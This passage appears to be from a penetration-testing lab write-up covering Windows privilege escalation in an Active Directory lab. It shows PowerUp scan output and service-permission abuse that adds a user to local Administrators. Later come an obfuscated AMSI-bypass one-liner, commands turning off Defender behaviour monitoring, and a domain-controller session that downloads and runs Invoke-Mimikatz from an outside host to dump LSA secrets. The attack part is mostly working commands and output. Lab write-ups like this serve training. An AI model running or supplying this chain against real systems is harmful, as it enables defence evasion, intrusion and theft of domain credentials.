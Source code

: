 ```sh
[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...

[*] Checking service permissions...

ServiceName    : Browser
Path           : C:\Windows\System32\svchost.exe -k smbsvcs
StartName      : LocalSystem
AbuseFunction  : Invoke-ServiceAbuse -Name 'Browser'
CanRestart     : True

[*] Checking %PATH% for potentially hijackable DLL locations...

ModifiablePath    : C:\Users\devmanager\AppData\Local\Microsoft\WindowsApps
IdentityReference : NEBULA\devmanager
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\devmanager\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\devmanager\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

[*] Checking for AlwaysInstallElevated registry key...
```

looks like `Browser` service permissions can be exploited. this would allow me to modify the `binPath`, or the path to the service allowing the `Browser` service to point to an `exe` of my choosing.

```sh
Invoke-serviceabuse -servicename browser -username nebula\devmanager /add
```

i then verified my privileges.

```sh
net localgroup Administrators
```


```sh
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
PS C:\Windows\system32> Set-MpPreference -DisableBehaviorMonitoring $true
PS C:\Windows\system32> Set-MpPreference -DisableIOAVProtection $true
PS C:\Windows\system32> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
NEBULA\devmanager
NEBULA\Domain Admins
NEBULA\prodadmin
NEBULA\serviceacct
The command completed successfully.

PS C:\Windows\system32> whoami
nebula\devmanager
PS C:\Windows\system32>
```

[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents>
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'